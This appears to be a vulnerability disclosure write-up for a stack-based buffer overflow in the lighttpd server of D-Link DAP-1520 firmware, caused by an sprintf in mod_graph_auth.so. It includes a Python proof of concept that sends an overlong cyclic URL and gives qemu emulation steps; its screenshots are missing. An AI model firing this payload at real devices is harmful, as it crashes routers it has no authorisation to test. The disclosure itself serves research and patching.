










## Overview

| Firmware Name | Firmware Version         | Download Link                                                |
| ------------- | ------------------------ | ------------------------------------------------------------ |
| DAP-1520      | DAP1520A1_FW110b04beta02 | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Analysis

the http_response_prepare function is called first .the function calls the plugins_call_handle_uri_clean function.

in lighttpd ,the plugins_call_handle_uri_clean function  calls the handle_uri_clean function.



it seems not too clear,we can use gdb to trace the process.



we can set a breakpoint at 0x41b898



keep going



here calls the sprintf function

look the lib address



In mod_graph_auth.so file



e calls the sprintf function and copy the a2+324 to V50



here can lead a stack_base overflow

## POC

```py
import requests
from pwn import *
ip = "127.0.0.1"
port = 80
url = f"http://{ip}:{port}/{cyclic(4000).decode('utf-8')}"
print(requests.get(url).text)
```

## qemu-mipsel-static

```
cd etc/conf.d
sudo rm -f auth.conf
cp auth_base.conf auth.conf
cd ..
cd ..
cd tmp/
mkdir log
cd log/
mkdir lighttpd
cd ..
cd ..
cp $(which qemu-mipsel-static) .
sudo chroot ./ ./qemu-mipsel-static  sbin/lighttpd -D -f etc/lighttpd_base.conf
```

## Vulnerability Verification Screenshot



 